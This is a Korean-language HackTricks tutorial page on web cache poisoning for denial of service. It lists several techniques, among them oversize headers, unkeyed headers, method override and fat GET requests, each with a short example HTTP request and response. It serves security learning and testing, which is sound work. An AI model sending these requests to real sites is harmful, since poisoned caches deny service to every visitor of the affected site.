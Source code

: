 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
이 페이지에서는 **캐시 서버에 유효한** 요청에 대해 **웹 서버가 오류로 응답하도록** 시도할 수 있는 다양한 변형을 찾을 수 있습니다.
{% endhint %}

* **HTTP Header Oversize (HHO)**

웹 서버가 지원하는 것보다 큰 헤더 크기로 요청을 보내되, 캐시 서버가 지원하는 것보다 작은 크기로 보냅니다. 웹 서버는 캐시될 수 있는 400 응답으로 응답할 것입니다:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP 메타 문자 (HMC) 및 예상치 못한 값**

` \n ` 및 ` \r `와 같은 **유해한 메타 문자**를 포함하는 헤더를 전송합니다. 공격이 작동하려면 먼저 캐시를 우회해야 합니다.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A badly configured header could be just `\:` as a header.

이것은 예상치 못한 값이 전송될 경우에도 작동할 수 있습니다. 예를 들어 예상치 못한 Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **키가 없는 헤더**

일부 웹사이트는 요청에 _X-Amz-Website-Location-Redirect: someThing_ 헤더와 같은 특정 헤더가 **보이면** 오류 상태 코드를 반환합니다.
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP 메서드 오버라이드 공격 (HMO)**

서버가 `X-HTTP-Method-Override`, `X-HTTP-Method` 또는 `X-Method-Override`와 같은 헤더로 HTTP 메서드를 변경하는 것을 지원하는 경우, 메서드를 변경하여 유효한 페이지를 요청할 수 있습니다. 이렇게 하면 서버가 이를 지원하지 않으므로 잘못된 응답이 캐시됩니다:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **키가 없는 포트**

Host 헤더의 포트가 응답에 반영되고 캐시 키에 포함되지 않는 경우, 사용되지 않는 포트로 리디렉션할 수 있습니다:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

다음 예와 같이, x는 캐시되지 않으므로 공격자는 리디렉션 응답 동작을 악용하여 리디렉션이 너무 큰 URL을 보내도록 만들어 오류를 반환할 수 있습니다. 그런 다음 uncached x 키 없이 URL에 접근하려는 사람들은 오류 응답을 받게 됩니다:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **호스트 헤더 대소문자 정규화**

호스트 헤더는 대소문자를 구분하지 않아야 하지만 일부 웹사이트는 소문자로 되어 있기를 기대하며 그렇지 않을 경우 오류를 반환합니다:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **경로 정규화**

일부 페이지는 경로에 데이터 URL 인코딩을 보내면 오류 코드를 반환하지만, 캐시 서버는 경로를 URL 디코딩하고 URL 디코딩된 경로에 대한 응답을 저장합니다:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

일부 캐시 서버, 예를 들어 Cloudflare 또는 웹 서버는 본문이 있는 GET 요청을 중단하므로, 이를 악용하여 잘못된 응답을 캐시할 수 있습니다:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## References

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
